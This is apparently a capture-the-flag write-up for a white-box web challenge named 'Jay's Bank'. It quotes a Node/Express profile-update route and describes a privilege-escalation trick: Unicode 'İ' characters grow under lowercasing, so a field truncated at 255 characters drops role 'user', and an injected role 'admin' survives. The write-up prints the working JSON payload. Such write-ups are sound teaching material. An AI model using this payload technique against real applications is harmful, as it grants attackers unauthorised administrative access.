




Đề bài : Jay's Bank
Tag : trick, mysql, white box
In db.js : 

This method converts object to string

Flag exists in config.js

Maintains :

You can see column data contains max 255 chars
Issue : length > 255 cut off the excess data

# In routes

IF data.role = admin we can have flag :v

PUT profile
router.put("/profile", jwtAuth, async (req, res) => {
  let username = req.user.username;

  let existingData = await db.getData(username);
  try {
    existingData = JSON.parse(existingData);
  } catch {
    existingData = { role: "user" };
  }

  let { phone, credit_card, secret_question, secret_answer, current_password } =
    req.body;

  if (!current_password) {
    return res.status(400).json({
      success: false,
      message: "Missing current password",
    });
  }

  if (
    !(
      typeof current_password === "string" &&
      (await db.verifyPassword(username, current_password))
    )
  ) {
    return res
      .status(401)
      .json({ success: false, message: "Invalid current password" });
  }

  if (!phone || !credit_card || !secret_question || !secret_answer) {
    return res.status(400).json({ success: false, message: "Missing fields" });
  }

  if (phone.length !== 10 || isNaN(phone)) {
    return res
      .status(400)
      .json({ success: false, message: "Invalid phone number" });
  }

  if (credit_card.length !== 16 || isNaN(credit_card)) {
    return res
      .status(400)
      .json({ success: false, message: "Invalid credit card number" });
  }

  if (typeof secret_question !== "string" || secret_question.length > 45) {
    return res
      .status(400)
      .json({ success: false, message: "Invalid secret question" });
  }

  if (typeof secret_answer !== "string" || secret_answer.length > 45) {
    return res
      .status(400)
      .json({ success: false, message: "Invalid secret answer" });
  }

  try {
    await db.updateData(
      username,
      db.convert({
        phone,
        credit_card,
        secret_question,
        secret_answer,
        role: "user",
      })
    );

    return res
      .status(200)
      .json({ success: true, message: "Successfully updated" });
  } catch {
    return res
      .status(400)
      .json({ success: false, message: "Failed to update DB" });
  }
});

check secret_answer.length > 45 
Remember to unicode "İİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİ"

Length will > 45
ToLOwerCase() will length > 255 and role: "user", will be cut
payload = {
    "phone": "1234567890",
    "credit_card": "1234567890987654",
    "secret_question": "İİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİİ", 
    "secret_answer": 'İİİİİİİİİİİİİİİİİİİİİİİİ","role":"admin"}',
    "current_password": account['password']
}
sever stop :((( i can't demo again
Flag : not do not eat
